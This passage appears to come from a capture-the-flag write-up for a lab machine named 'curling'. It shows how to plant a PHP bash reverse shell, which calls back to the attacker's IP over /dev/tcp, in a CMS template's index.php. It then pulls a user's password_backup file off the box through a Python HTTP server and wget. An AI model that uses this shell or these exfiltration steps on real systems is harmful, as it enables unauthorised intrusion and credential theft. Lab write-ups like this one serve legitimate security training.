 
## GETTING A REVERSE SHELL

- Reading on the internet, we can easily found an important "vulnerability"
- Once we got access to the administrator panel, we are able to RCE (Remote Code Execution)
- To obtain a reverse shell, we need to go to the `Template` tab
- Here there are `Styles` and `Template`
- In `Styles` we see that there are two entries 
- One of them, i.e. `protostar`, is the default template assigned to all pages
- Now, we can go on `Templates` and click on protostart
- Once we have done this, it opens a page with a number of folders and files
- Among all of them there are a number of *editable* PHP files.
- Open the most obvious one, i.e., `index.php`, and insert the PHP reverse shell

```php
<?php system("/bin/bash -c 'exec bash -i &> /dev/tcp/{MyIP}/{port} >&1'") ?>
```

- In the meantime, run a netcat listener on the specified port
- Save the modified file and on another tab search for `http://{IP}/`
- There it is! The reverse shell is active.

---

## INVESTIGATING THE REMOTE MACHINE

- We are logged as `www-data` that does not have a HOME folder
- In the `home` folder there is only one user named `floris`
- We can try to login as floris using the same password, but we will fail
- However, in the floris home folder, that we can access as read-only, there are some files

```bash
total 12
drwxr-x--- 2 root   floris 4096 Aug  2  2022 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 12 15:57 user.txt
```

- `user.txt` that contains the flag is not accessible
- `admin-area` neither.
- `password_backup` is accessible in reading mode, hence let's downloading it in local
- On the remote machine setup a temporal HTTP server using Python

```bash
www-data@curling:/home/floris$ python3 -m http.server
```

- On the local machine just run

```bash
$ wget http://{IP}:8000/password_backup
$ cat password_backup

00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
```